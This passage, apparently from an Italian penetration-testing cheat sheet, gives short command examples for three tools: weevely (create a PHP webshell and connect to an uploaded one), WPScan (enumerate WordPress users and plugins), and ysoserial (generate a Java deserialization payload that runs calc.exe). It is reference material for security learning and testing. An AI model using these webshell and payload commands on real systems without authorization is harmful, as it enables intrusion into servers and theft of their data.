 ### 🔹 Comandi diretti

```bash
# Generazione webshell
weevely generate mysecretpass shell.php

# Connessione alla webshell caricata
weevely http://<target-ip>/uploads/shell.php mysecretpass
```

---

## 🏗️ WPScan (WordPress Exploitation)

**Perché usarlo:**
Scanner specifico per WordPress. Enumera utenti, plugin e vulnerabilità note tramite database CVE.

**Opzioni principali:**

* `--url` → URL target
* `--enumerate u,p` → enumera utenti e plugin
* `--api-token` → necessario per database vulnerabilità aggiornato

### 🔹 Comandi diretti

```bash
wpscan --url http://<target-ip>/ --enumerate u,p
```

### 💾 Salvataggio output

```bash
wpscan --url http://<target-ip>/ --enumerate u,p --api-token <TOKEN> -o wpscan.txt
```

---

## 🧾 ysoserial (Java Deserialization)

**Perché usarlo:**
Crea payload malevoli per sfruttare vulnerabilità di deserializzazione in Java (commons-collections, groovy, ecc.).

### 🔹 Comandi diretti

```bash
# Genera payload CommonsCollections1 con esecuzione di 'calc.exe'
java -jar ysoserial.jar CommonsCollections1 "calc.exe" > payload.bin
```

---

## 🌐 tplmap (SSTI Exploitation)
